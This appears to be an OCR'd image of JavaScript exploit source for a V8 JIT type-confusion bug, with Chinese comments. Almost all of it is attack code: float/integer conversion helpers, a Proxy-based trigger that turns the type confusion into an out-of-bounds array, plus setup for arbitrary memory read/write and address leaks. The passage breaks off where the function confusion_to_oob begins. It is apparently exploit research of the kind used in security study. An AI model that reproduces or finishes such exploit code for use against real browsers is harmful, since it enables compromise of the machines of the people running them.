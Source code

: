 ```
var uint32 = new Uint32Array(buf);
var float64 = new Float64Array(buf);
var big_uint64 = new BigUint64Array(buf);
// float-->uint
function f2i(f)
{
    float64[0] = f;
    return big_uint64[0];
}
// uint-->float
function i2f(i)
{
    big_uint64[0] = i;
    return float64[0];
}
// 64-->32
function f2half(val)
{
    float64[0]= val;
    let tmp = Array.from(uint32);
    return tmp;
}
// 32-->64
function half2f(val)
{
    uint32.set(val);
    return float64[0];
}
// 显示十六进制，纯粹为了美观
function hex(a) {
    return "0x" + a.toString(16);
}

// 漏洞所需的函数
function empty() {}
function f(p) {
    // 2.42902434121390450978968281326E-319 == 0xC00C
    vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
}
let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {};                 // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];                  // 修改此数组的length来达到oob
        uint64_arw = new BigUint64Array(2); // 实现任意地址读写
        obj_leaker = {
            a: 0xc00c/2,
            b: oob_array,
        };                                  // 实现地址泄露
        //%DebugPrint(oob_array);
        //%DebugPrint(uint64_arw);
        //%DebugPrint(obj_leaker);
        //%SystemBreak();
        return Object.prototype;
    }
});
function main(p) {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    f(p);
}
// 将类型混淆转化为越界读写
function confusion_to_oob() {
```